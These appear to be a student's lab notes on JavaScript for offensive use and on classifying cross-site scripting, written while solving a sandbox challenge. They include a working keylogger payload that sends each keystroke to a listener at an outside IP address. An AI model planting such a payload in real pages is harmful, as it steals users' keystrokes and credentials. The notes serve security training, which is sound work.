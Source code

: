 
#### Javascript Basics for Offensive uses
When a browser processes an HTTP response containing HTML, the browser creates a _Document Object Model_ (DOM) tree and renders it. The DOM includes all forms, inputs, images, etc. on a page. JavaScript can access and modify the page's DOM, resulting in a more interactive experience for end users. From a vulnerability exploitation perspective, this also means that if we can inject JavaScript, we can access and modify the page's DOM. With access to the DOM, we can redirect login forms, extract passwords, phish users, and much more.


```js
function logKey(event){
	fetch("http://192.168.45.215/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
```

Entered the payload @ `http://xss-sandbox/challenge/eval` - simulated keystrokes - hit render 
![[Pasted image 20240720234440.png]]
In my `python3 -m http.server 80`  the keystrokes are sent
`I Like to send flags, yes i do! OS{typetypetype}` is what it says
![[Pasted image 20240720234642.png]]

---------
#### XSS - Discovery
Cross-site scripting can be classified into two main types: reflected and stored. The main difference being that stored is persistent and reflected is not. A reflected XSS payload is only exploited via a crafted link or a targeted redirect from another site. Conversely, a stored XSS, as the name implies, saves the payload into the database. This means multiple victims can fall prey to a stored XSS exploit through general navigation around the site, which makes stored XSS much more dangerous. The _stored_ and _reflected_ classifications refer to the level of persistence of the payload.

In addition, stored and reflected XSS can also be classified either by server XSS or client XSS. This refers to the location in the application architecture that the payload is outputted. With server XSS, the application server is appending the untrusted user input to the HTML document without any output encoding. With client XSS, the non-malicious client-side JavaScript is appending untrusted user input to the DOM without any further encoding. This is important because client XSS is much harder to discover. While server XSS can be discovered by sending a request and reviewing the response, client XSS must be discovered by using a browser or auditing the front-end JavaScript code.

**Historically, XSS has been broken down into three categories: stored, reflected, and DOM-based. The term "DOM-based" is what we now call "client XSS". The three categories paint an inaccurate picture of the XSS landscape. Using these three categories, a student would naturally assume that an XSS vulnerability can be either stored, reflected, or DOM-based. This is not true. A vulnerability can be either stored server XSS, stored client XSS, reflected server XSS, or reflected client XSS. XSS terminology has been neglected for years and this has caused much confusion in the industry.**



----------
#### Reflected Server XSS

*What you are looking for:*
